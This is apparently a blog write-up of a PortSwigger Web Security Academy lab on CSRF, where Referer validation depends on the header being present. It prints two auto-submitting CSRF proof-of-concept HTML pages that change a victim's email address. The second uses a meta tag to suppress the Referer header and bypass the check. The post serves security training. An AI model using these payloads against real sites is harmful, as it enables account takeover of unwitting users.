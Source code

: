 ```yaml
---
layout: post
title:  "CSRF where Referer validation depends on header being present"
date:   2024-10-03 09:39:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution 

Exactly like the rest other labs, we have to update the email, Intercept the request and Generate the POC using engagement tools.. here is how the POC looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Then Copied the payload into Exploit server, `Stored -> View Exploit` that resulted in a referrer header error 

![]({{ site.baseurl }}/assets/images/csrf-24.png)

In order to bypass the check we can add the following the piece of code which will suppress the `Referrer` header kind of like telling the application that I don't need it  `<meta name="referrer" content="never">` into our POC 

```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Redo the method again in terms of exploit server after adding this code like `Store -> Deliver the exploit to Victim` and then lab will be solved 

![]({{ site.baseurl }}/assets/images/csrf-25.png)